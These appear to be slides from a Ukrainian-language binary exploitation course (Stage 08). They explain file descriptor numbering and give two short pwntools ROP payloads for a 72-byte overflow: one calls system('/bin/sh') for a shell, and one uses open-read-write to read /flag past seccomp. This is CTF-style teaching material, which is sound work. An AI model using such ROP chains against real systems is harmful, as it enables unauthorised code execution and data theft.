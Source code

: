 
# Stage 08: File Descriptors

Чому fd=3 для open()?

```
┌────┬─────────────────┐
│ 0  │ stdin           │
│ 1  │ stdout          │
│ 2  │ stderr          │
│ 3  │ Перший файл!    │
│ 4  │ Другий файл     │
└────┴─────────────────┘
```

**open()** повертає найменший вільний FD = 3

---

# Stage 08: Експлойт - Variant A

system("/bin/sh")

```python
from pwn import *

# ... leak base ...
rop = ROP(libc)
binsh = next(libc.search(b'/bin/sh\x00'))

rop.system(binsh)
payload = b'A'*72 + rop.chain()
io.send(payload)
io.interactive()
```

---

# Stage 08: Експлойт - Variant B (ORW)

Open-Read-Write

```python
rop = ROP(libc)

rop.open(next(libc.search(b'/flag\x00')), 0)
rop.read(3, elf.bss(0x200), 0x100)
rop.write(1, elf.bss(0x200), 0x100)

payload = b'A'*72 + rop.chain()
```

**Переваги**: Працює навіть з seccomp

---